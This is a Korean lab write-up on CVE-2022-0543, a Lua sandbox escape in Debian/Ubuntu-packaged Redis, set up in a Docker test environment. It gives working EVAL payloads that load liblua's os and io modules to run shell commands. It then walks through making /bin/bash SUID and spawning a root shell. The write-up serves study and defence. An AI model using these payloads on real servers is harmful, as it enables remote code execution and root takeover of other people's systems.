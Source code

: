 # CVE-2022-0543

**Contributors**

-   [박연준(@yeo0n)](https://github.com/yeo0n)

<br/>

### 요약
-   Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 탈출하여 호스트에서 임의의 코드를 실행할 수 있습니다.
-   https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
-   https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis
-   https://www.linode.com/ko/blog/security/linode-security-digest-cassandra-redis-snap-confine/
-   https://nvd.nist.gov/vuln/detail/CVE-2022-0543

<br/>

### Redis란?

-   Redis는 Key, Value 구조의 비정형 데이터를 저장하고 관리하기 위한 오픈 소스 기반의 비관계형 데이터 베이스 관리 시스템 (DBMS)입니다.
-   데이터베이스, 캐시, 메세지 브로커로 사용되며 인메모리 데이터 구조를 가진 저장소입니다.

<br/>

### CVE-2022-0543 소개

-   2022년 2월 Redis의 심각한 취약점이 보고되었습니다. Redis는 패키징 문제로 인해 (Debian 관련) Lua 샌드박스 이스케이프가 발생하기 쉽고 이로 인해 원격 코드가 실행될 수 있는 것으로 나타났습니다.
-   주목해야 할 중요한 점은 이 취약점은 Debian 및 Debian 파생 Linux 배포만에만 적용된다는 것입니다. 업스트림 Redis는 영향을 받지 않습니다.
-   Reginaldo Silva가 Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있음을 발견했습니다.
-   근본적인 원인은 Lua 라이브러리가 Debian 동적 라이브러리로 제공됩니다. "패키지"변수가 자동으로 채워지므로 임의의 Lua 기능에 대한 액세스가 허용됩니다. 예를 들어 이 기능은 "os"모듈의 "execute" 함수로 확장되면 임의의 Lua 코드를 실행할 수 있는 공격자가 임의의 셸 명령을 실행할 수 있습니다.

<br/>

### PoC 코드

```
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

<br/>

### 환경 구성 및 실행

-   터미널 창을 연 후, 다음 명령을 실행하여 Redis 서버 5.0.7 테스트 환경을 실행합니다.
```
docker compose up -d
```

-   서버가 시작된 후 다음 명령어를 통해 자격 증명 없이 이 서버에 연결할 수 있습니다. Redis 서버의 기본 설치에는 비밀번호가 없는 기본 사용자가 함께 제공됩니다. `redis-cli`
```
redis-cli -h your-ip
```

-   exit 명령어로 연결을 끊은 후, Docker로 연 redis 서버에서 다음 명령어로 실행 중인 프로세스를 식별합니다. (기본 포트인 6379에서 수신 대기중이며, Root로 실행되고 있음을 확인)
```
ps aux
```

-   Redis 서버에 다시 연결합니다.
```
redis-cli
```
![](1.png)

-   PoC는 공유 Lua 라이브러리를 참조하기 때문에 사용 가능한 공유 Lua 라이브러리를 확인합니다.
```
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```
![](2.png)

-   redis-cli로 연결한 후 다음 PoC 코드를 입력합니다. (주의할 점: touch 뒤에 있는 경로를 pwd로 확인하여 확인하기 쉽게 변경)
```
redis cli
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

-   이제 redis-cli를 종료하고 redis_poc 파일을 확인합니다.
```
exit
ls -al
```
![](3.png)

-   redis-cli에 연결하고 다음 `id`의 os 명령을 실행하는 페이로드를 입력합니다.
```
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](4.png)

-   다음으로 루트 셸을 얻기 위해 Lua 샌드박스 이스케이프 익스플로잇을 활용하여 `bash`를 `SUID` 루트 바이너리로 만듭니다.
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](5.png)

-   redis-cli를 종료하고 루트 셸을 얻기 위해 루트 사용자로 로그인합니다.
```
exit
/bin/bash -p
id
```
![](6.png)

<br/>

### 정리

-   이 취약점은 Redis가 데비안 계열의 우분투 패키징 문제로 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있었습니다. 따라서 안전한 redis 서버를 운영하기 위해서 주기적으로 redis 버전을 확인하고 업데이트 하는 것이 필요합니다.
